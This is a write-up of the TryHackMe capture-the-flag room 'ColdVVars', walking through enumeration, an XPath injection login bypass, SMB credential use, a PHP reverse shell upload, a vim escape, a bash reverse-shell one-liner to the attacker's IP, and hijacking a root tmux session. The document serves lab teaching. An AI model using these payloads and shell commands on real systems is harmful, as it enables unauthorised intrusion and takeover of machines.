 # ColdVVars

* This is a writeup for the room ["ColdVVars"](https://tryhackme.com/room/coldvvars) by cirius & fl4shi3r at TryhackMe

* I completed this room using Parrot OS so there might be a syntax difference if you use another Linux distribution.

* This challenge is marked as MEDIUM difficulty but I believe hackers of all levels can complete it and learn a lot from it!

                ** HAVE FUN!! 
                
                
![alt_text](coldvvar/coldvvar1.png "image_tooltip")


* First we start with our nmap scan!


![alt_text](coldvvar/coldvvar2.png "image_tooltip")


* 2 SMB ports open (139, 445) and 2 HTTP ports open as well (8080, 8082)

* Doing a directory search on both HTTP ports using gobuster...

![alt_text](coldvvar/coldvvar3.png "image_tooltip")

![alt_text](coldvvar/coldvvar4.png "image_tooltip")


* We find /dev on port 8080 and /login on port 8082

* Taking a peek at the login page...


![alt_text](coldvvar/coldvvar5.png "image_tooltip")


* In the room description, it says "XPath Injection" (pro TryHackMe tip!! Looking at the room's description can give us 
a nice hint on how to solve it!!). If you are not familiar with this type of attack, there is absolutely no shame in just googling it!! There is no limit to how many new things you can learn by just googling attacks, exploits etc.

* Going through https://book.hacktricks.xyz/pentesting-web/xpath-injection you will see ...

![alt_text](coldvvar/xpath.png "image_tooltip")


* Great! Let's try that one then!! Insert `" or 1=1 or " `  in the username field ...


![alt_text](coldvvar/coldvvar6.png "image_tooltip")


* And the credentials we need are the last ones in the list!!

* Using a tool called `smbmap` we enumerate shares now that we have username:password!!


![alt_text](coldvvar/coldvvar7.png "image_tooltip")


* We see SECURE which is in Dev (we found a /dev on port 8080, remember??) 

* Using `smbclient` we check out that share and find a file called `note.txt`

* We cab check its contents quickly by using `curl`


![alt_text](coldvvar/coldvvar8.png "image_tooltip")


* Awesome!! That means we can upload files in there as well, which includes a reverse php shell!! (I uploaded the shell I used here in this repository, for easier, faster access)


![alt_text](coldvvar/coldvvar9.png "image_tooltip")


* We start a netcat listener, and activate our shell by simply using curl again ( you can also just do this through web browser!)


![alt_text](coldvvar/coldvvar10.png "image_tooltip")


* And we get our reverse shell!!


![alt_text](coldvvar/coldvvar11.png "image_tooltip")


* tmux, tmux, tmux ... hmmmmmmm ....look at that `zzzzzzzz root@localhost` output! (Can you guess what we will use to escalate privileges??) 

* But let's not get ahead of ourselves. First stabilize the shell, switch users and get user.txt


![alt_text](coldvvar/coldvvar12.png "image_tooltip")


![alt_text](coldvvar/coldvvar13.png "image_tooltip")


* Sweet. Going by the name of the room, we should go check `env` next!


![alt_text](coldvvar/coldvvar14.png "image_tooltip")


* In the middle of that output, something looks interesting ...`OPEN_PORT=4545` ... let's see if we can connect to this port using netcat ...


![alt_text](coldvvar/coldvvar16.png "image_tooltip")


* Choosing the option 4 (just type 4 and hit ENTER) will bring you to a vim page (yeah, UGH, I know lol) 


![alt_text](coldvvar/coldvvar17.png "image_tooltip")


* hit ESC before doing anything (or else you will be stuck in that vim nightmare forever!!)
* AFTER hitting ESC

    * :!/bin/sh
    * id (only to confirm! You will see "marston" which is a word that also appears there when we got the reverse shell)
    * open another terminal tab and start a netcat listener
    * type `bash -c 'bash -i >& /dev/tcp/10.4.31.108/7778 0>&1'` but substitute the IP for your IP!
    
    
![alt_text](coldvvar/coldvvar18.png "image_tooltip")



* Remember all that tmux, tmux, tmux we saw when we got our reverse shell? We will attach to the tmux session and go to the window where marston used ssh as root! Follow this:

    * First stabilize the shell by typing `python3 -c "import pty;pty.spawn('/bin/bash')"`
    * Then next do Ctrl Z. It will appear as if you killed the shell, but no, you just detached from it
    * Next, type `stty raw -echo; fg`
    * Next, open another tab in your terminal and type `stty size` 
    

![alt_text](coldvvar/coldvvar19.png "image_tooltip")

* Continuing with the process:

    * These numbers might be different for you. These are the rows and columns the terminal window has.
    * Next go back to the tab where the shell is and type `stty rows 26 cols 96`  (substitute by the numbers that come to you)
    * Next type `export TERM=xterm`
    * Next type `tmux attach`
    

![alt_text](coldvvar/coldvvar21.png "image_tooltip")

* Now we need to find the window where the root is. To move windows, Crtl b, then hit n, until you see


![alt_text](coldvvar/coldvvar20.png "image_tooltip")


* To be able to type in the root window, Crtl b, then hit o


![alt_text](coldvvar/coldvvar22.png "image_tooltip")


* YAY!!!!! We did it!!! I am NOT a tmux fan/ user so this was quite a challenge!


![alt_text](coldvvar/coldvvarsfinal.png "image_tooltip")


I hope you enjoyed this super challenging room and thank you so much for reading my writeup!!

Happy Hacking!!


                   `Crypto Tzipi aka CyberLola`

















